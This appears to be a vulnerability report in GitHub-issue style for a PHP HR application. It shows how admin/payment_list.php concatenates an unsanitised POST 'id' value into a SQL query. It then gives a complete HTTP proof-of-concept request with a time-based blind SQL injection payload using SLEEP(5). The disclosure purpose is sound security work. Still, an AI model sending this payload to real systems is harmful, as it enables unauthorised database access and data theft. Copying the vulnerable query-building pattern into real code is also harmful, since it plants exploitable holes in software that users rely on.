 ### Vulnerability file address

`admin/payment_list.php` from line 43,The `$_POST['id']` parameter is controllable and the `$_POST['id']` is not protected from sql injection, line 45 `$stmt->execute();` ,line 47 `$item = $statement->fetch(PDO::FETCH_ASSOC`,line 47 performs a SQL query, causing SQL injection

```php
 <?php
                                    $sql = "SELECT * FROM installement where inv_no='" . $_POST['id'] . "' order by id desc";
                                    $statement = $conn->prepare($sql);
                                    $statement->execute();
                                    $no = 0; // Initialize counter
                                    while ($item = $statement->fetch(PDO::FETCH_ASSOC)) {
                                        $no++; // Increment counter
                                    ?>
```

### POC

```http
POST /CMS/php/_hr_soft/admin/payment_list.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

id=200' AND (SELECT 5490 FROM (SELECT(SLEEP(5)))YCLA)-- ehpf
```

### Attack results pictures

![image-20250130163552372](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501301635409.png)
